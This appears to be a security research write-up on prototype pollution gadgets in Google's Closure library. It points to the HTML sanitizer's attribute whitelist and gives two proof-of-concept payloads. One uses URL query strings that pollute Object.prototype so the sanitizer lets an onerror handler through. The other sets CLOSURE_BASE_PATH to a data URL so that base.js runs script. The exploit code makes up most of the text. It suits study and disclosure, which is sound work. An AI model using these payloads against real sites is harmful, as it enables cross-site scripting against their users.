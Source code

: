 ## Closure

URL: https://github.com/google/closure-library/

### Vulnerable code fragment
https://github.com/google/closure-library/blob/5a0002f16c91d41f5de3dc7bdcafe9b74b1b4fa0/closure/goog/html/sanitizer/attributewhitelist.js#L22-L107
```js
goog.html.sanitizer.AttributeWhitelist = {
  '* ARIA-CHECKED': true,
  '* ARIA-COLCOUNT': true,
  '* ARIA-COLINDEX': true,
  '* ARIA-CONTROLS': true,
  '* ARIA-DESCRIBEDBY': tru
...
}
```

### PoC

#### AttributeWhitelist

```
?__proto__[*%20ONERROR]=1&__proto__[*%20SRC]=1
```

```html
<script>
  Object.prototype['* ONERROR'] = 1;
  Object.prototype['* SRC'] = 1;
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
  goog.require('goog.html.sanitizer.HtmlSanitizer');
  goog.require('goog.dom');
</script>
<body>
<script>
  const html = '<img src onerror=alert(1)>';
  const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
  const sanitized = sanitizer.sanitize(html);
  const node = goog.dom.safeHtmlToNode(sanitized);
          
  document.body.append(node);
</script>
```

#### CLOSURE_BASE_PATH

```
?__proto__[CLOSURE_BASE_PATH]=data:,alert(1)//
```

```html
<script>
  Object.prototype.CLOSURE_BASE_PATH = 'data:,alert(1)//';
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
  goog.require('goog.html.sanitizer.HtmlSanitizer');
  goog.require('goog.dom');
</script>
```